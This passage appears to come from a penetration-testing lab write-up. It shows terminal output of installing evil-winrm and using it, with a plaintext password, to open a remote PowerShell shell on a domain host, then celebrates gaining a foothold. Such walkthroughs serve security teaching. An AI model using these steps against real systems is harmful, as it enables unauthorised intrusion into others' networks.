 ```
┌─[✗]─[root@Sp00kyS3c]─[~/hashcat]
└──╼ #gem install evil-winrm
Happy hacking! :)
Successfully installed evil-winrm-1.9
Parsing documentation for evil-winrm-1.9
Done installing documentation for evil-winrm after 5 seconds
1 gem installed

┌─[root@Sp00kyS3c]─[~/hashcat]
└──╼ #evil-winrm -i 10.10.13.37 -u svc-demo
Enter Password: Sup3rS3cr3tP4ssw0rd!

Evil-WinRM shell v1.9

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-demo\Documents> whoami
spookysec\svc-demo
*Evil-WinRM* PS C:\Users\svc-demo\Documents> 
```

And success! We now have a foothold in the domain! There's a ton of attacks that we might be able to do from here, however, that's a different post for another day!
